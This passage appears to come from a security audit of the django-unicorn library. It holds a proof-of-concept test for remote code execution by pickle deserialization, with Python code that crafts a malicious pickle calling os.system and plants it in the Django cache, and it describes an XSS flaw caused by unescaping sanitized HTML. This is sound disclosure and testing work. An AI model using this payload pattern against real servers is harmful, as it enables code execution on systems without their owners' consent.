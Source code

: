 - **Security test case:**
    - **Vulnerability Test Name:** RCE via Pickle Deserialization
    - **Test Description:** Inject malicious pickled payload into cache and trigger component restoration to achieve RCE.
    - **Step-by-step test:**
        1. **Vulnerable Cache Setup (Simulated Poisoning):** Use Django's cache API to insert a malicious payload.
        2. **Craft Malicious Payload:** Create a Python script to generate a malicious pickled payload:
        ```python
        import os
        import pickle

        class MaliciousComponent:
            def __reduce__(self):
                return (os.system, ('touch /tmp/unicorn_rce_poc',))

        malicious_component = MaliciousComponent()
        pickled_payload = pickle.dumps(malicious_component)

        with open("malicious_payload.pickle", "wb") as f:
            f.write(pickled_payload)
        ```
        3. **Inject Payload into Cache:** Use Django's cache API to set a cache entry with a key used by django-unicorn (e.g., "unicorn:component:test_rce_component") and the malicious payload.
        ```python
        from django.core.cache import cache
        with open("malicious_payload.pickle", "rb") as f:
            malicious_payload = f.read()

        cache_key = "unicorn:component:test_rce_component"
        cache.set(cache_key, malicious_payload)
        ```
        4. **Trigger Component Restoration:** Access a page that renders a cached component to trigger restoration.
        5. **Verify RCE:** Check if `/tmp/unicorn_rce_poc` was created on the server. If yes, RCE is confirmed.
        6. **Cleanup:** `cache.delete(cache_key)`.

### 7. Cross-Site Scripting (XSS) vulnerability due to unsafe HTML sanitization in component rendering

- **Vulnerability Name:** Cross-Site Scripting (XSS) vulnerability due to unsafe HTML sanitization in component rendering
- **Description:**
    - Django-unicorn attempts to sanitize HTML during component rendering using `sanitize_html` and `HTMLFormatter`. However, the `_desoupify` method in `UnicornTemplateResponse.render` *unescapes* HTML entities, effectively undoing the sanitization and creating a significant XSS vulnerability. This affects both initial component rendering and updates.
    - **Step-by-step trigger:**
        1. An attacker injects malicious JavaScript code into a component property.
        2. The component template renders this property using `{{ property }}`.
        3. Although `sanitize_html` might encode the data initially (for JSON part), `_desoupify` unescapes HTML entities in the main template content.
        4. The unescaped malicious JavaScript is rendered into the HTML response.
        5. The victim's browser executes the malicious JavaScript, leading to XSS.
